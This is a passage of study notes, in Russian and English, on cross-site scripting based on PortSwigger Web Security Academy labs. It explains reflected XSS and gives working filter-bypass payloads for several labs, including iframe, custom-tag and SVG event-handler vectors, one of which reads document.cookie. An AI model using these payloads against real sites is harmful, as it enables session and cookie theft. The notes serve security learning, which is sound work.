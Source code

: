 [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

[Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# XSS PoC
`alert(document.domain)` or `print()`

# Reflected XSS
Функция поиска, которая получает поисковый запрос от пользователя в параметре URL:

```
https://insecure-website.com/search?term=gift
```

```
<p>You searched for: gift</p>
```

Эксплуатация:

```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

```
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

## XSS между тегами HTML
Когда контекст XSS представляет собой текст между тегами HTML, необходимо ввести несколько новых тегов HTML, предназначенных для запуска выполнения JavaScript.

Lab: [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

```
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Lab: [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

```
<script> location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>
```

Lab: [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

```
"><svg><animatetransform onbegin=alert(1)>
```

## XSS в атрибутах тегов HTML
Когда контекст XSS находится в значении атрибута HTML-тега, иногда можно прервать значение атрибута, закрыть тег и ввести новый. Например:
